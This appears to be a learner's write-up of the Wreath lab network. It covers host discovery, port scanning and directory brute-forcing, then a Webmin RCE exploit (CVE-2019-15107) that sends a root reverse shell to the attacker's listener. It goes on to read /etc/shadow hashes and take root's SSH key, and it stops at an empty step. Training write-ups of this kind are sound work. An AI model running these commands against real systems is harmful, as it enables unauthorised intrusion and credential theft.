 ![image](https://github.com/user-attachments/assets/b5bd875b-fcc3-4286-afcc-a077677343fc)Wreath is designed as a learning resource for beginners with a primary focus on:

Pivoting
Working with the Empire C2 (Command and Control) framework
Simple Anti-Virus evasion techniques



# Brief
There are two machines on my home network that host projects and stuff I'm working on in my own time -- 
one of them has a webserver that's port forwarded, so that's your way in if you can find a vulnerability! It's serving a website that's pushed to my git server from my own PC for version control, then cloned to the public facing server. See if you can get into these! My own PC is also on that network, but I doubt you'll be able to get into that as it has protections turned on, doesn't run anything vulnerable, and can't be accessed by the public-facing section of the network. Well, I say PC -- it's technically a repurposed server because I had a spare license lying around, but same difference.


# Enumeration 

As with any attack, we first begin with the enumeration phase
1. Fping: Using the command fping -agq 10.200.73.200/24 the network was ping to figure out what is in the network
The reult returned 3 Ip address,
  A. 10.200.73.1 - the gateway
  B. 10.200.73.200 - Which is the public facing server 
  C. 10.200.73.250 - unknown machine
![image](https://github.com/user-attachments/assets/1f8ce2fb-c9a3-4f5a-8f7b-7f3a33af18e1)



2. Nmap: This was used to further enumerate the Hosts found in the network
   A.  10.200.73.250 Host: This was scanned using nmap -T4 -sV -A 10.200.73.250  -oN scan.txt  and the result only showed
       i.  port 22 is actively running OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

   ![image](https://github.com/user-attachments/assets/13b0b801-9bd8-4a18-aeeb-ca6942862a54)

  B. 10.200.73.200 Host: This was scanned using nmap -T4 -sV -p- 15000  -A 10.200.73.200  -oN scan.txt, and it returned the following
      i. Port 22 runnig OpenSSH 8.0 (protocol 2.0)
      ii. Port 80 running Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
      iii.Port  443   Apache/2.4.37 (centos) OpenSSL/1.1.1c
      ![image](https://github.com/user-attachments/assets/01be25df-0866-42bd-be16-3791b2237e54)
Going forward with the enumeration, the website was accessed, and was accessible only after adding the domain name resolved on the bowsrr when the IP addressed was input into the browser, into the /etc/hosts file
![image](https://github.com/user-attachments/assets/2c468504-6e52-4663-ba16-9dcba2c33952)
The website was subjcted to directory bruteforcing using  ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.200.73.200/FUZZ -fc 403
![image](https://github.com/user-attachments/assets/f65d363c-0923-42b2-8f3b-090c8273d094)

....
      iv. Port 9090 which showed closed status but is running zeus-admin
      v. Port 10000 running      MiniServ 1.890 (Webmin httpd): The website was accessed and it contained a login in page.  
![image](https://github.com/user-attachments/assets/8603471a-26cb-42e9-9b7e-d151c5ff90ba)


      vi. The operating system is linux CenSOS


# Exploitation

From the Enumeratin, it was discovered that the webserver on port 10000 of the  10.200.73.200 Host is running  MiniServ 1.890 (Webmin httpd)
A closer look at this version showed that it is vulnerable to RCE that gives a root shell CVE-2019–15107 
![image](https://github.com/user-attachments/assets/b454cbaf-d8cd-470c-8066-516afbdf71b8)

Using a publicly available python script and setting up a listner on port 2294, the RCE vulnerablity was exploited
./exploit.py  10.200.73.200 10000   10.50.66.4 2294           
screnshot of the script:
![image](https://github.com/user-attachments/assets/d845e147-f37a-42b0-9363-9b7067507d0d)
Screenshot of the listener getting root shell
![image](https://github.com/user-attachments/assets/07b17aab-1e5a-4daf-b85e-a084bffcf05e)


2. Password Enumeration
cat /etc/shadow was used to enumerate the root's password hash, then wreath's password
![image](https://github.com/user-attachments/assets/3c72cbaf-9513-4c9a-86f9-6550fc9c87ca)

![image](https://github.com/user-attachments/assets/88fd9c34-d863-4a8d-9816-04b9ea6a41f5)


3. Credential enumerations:
The root's home directory was enumerated, and an SSH key was discovered which is going to be useful for getting direct access into the server using the root's credentials without going through the RCE exploitation again.
![image](https://github.com/user-attachments/assets/76989e81-ed00-4c20-9b68-7cc2bce3e6f6)


5. 
    





